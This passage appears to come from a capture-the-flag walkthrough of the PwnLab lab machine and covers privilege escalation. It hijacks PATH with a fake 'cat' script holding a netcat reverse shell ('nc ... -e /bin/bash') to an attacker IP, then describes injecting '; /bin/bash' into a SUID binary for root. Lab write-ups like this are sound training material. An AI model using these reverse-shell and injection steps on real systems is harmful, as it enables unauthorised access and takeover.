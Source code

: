### Path Hijacking

We will take advantage of this bad practice to escalate the user mike, we first need to export the PATH variable by adding the directory /tmp that will contain our malicious cat command, then we add a netcat reverse shell with the name cat and grant it execute permissions.

```console
kane@pwnlab:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
kane@pwnlab:/tmp$ echo 'nc 192.168.179.1 443 -e /bin/bash' > cat
echo 'nc 192.168.179.1 443 -e /bin/bash' > cat
kane@pwnlab:/tmp$ chmod +x cat
chmod +x cat
```

We set up a netcat listener and execute the msgmike binary.

```console
kane@pwnlab:/tmp$ /home/kane/msgmike
/home/kane/msgmike 
```

We have a shell as user mike.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.176] 43777
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
script -qc /bin/bash /dev/null
mike@pwnlab:/tmp$
```

In mike's home directory there is another binary with the SUID bit enabled, this writes the input provided by the user to a file called messages.txt in the root directory.

```console
mike@pwnlab:/tmp$ cd /home/mike
cd /home/mike
mike@pwnlab:/home/mike$ ls -la msg2root
ls -la msg2root
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root

mike@pwnlab:/home/mike$ strings ./msg2root
strings ./msg2root
...
Message for root:                                                                                                                                                   
/bin/echo %s >> /root/messages.txt
...
```

### SUID Binary

We can get a root shell by simply entering a semicolon followed by /bin/bash.
